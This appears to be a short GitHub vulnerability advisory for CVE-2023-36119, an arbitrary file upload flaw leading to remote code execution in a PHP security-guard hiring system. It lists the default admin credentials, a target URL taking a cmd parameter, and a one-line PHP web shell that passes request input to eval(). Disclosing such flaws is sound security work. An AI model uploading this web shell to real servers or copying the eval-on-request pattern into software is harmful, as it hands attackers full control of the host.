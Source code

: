 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)
+ CVE ID: CVE-2023-36119
+ CVSS v3.1 `AV:A/AC:H/PR:H/UI:R/S:C/C:H/I:H/A:H/E:F/RL:W/RC:R/CR:H/IR:H/AR:M/MAV:A/MAC:L/MPR:H/MUI:R/MS:U/MC:H/MI:H/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/6449346a-c778-45aa-ac64-4f09fd7caed2)


**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/2e775a08-950c-46fa-adb3-42d1cd96c90f)

## POC

https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/aa1de286-20ad-422d-a564-cb2f984af26b

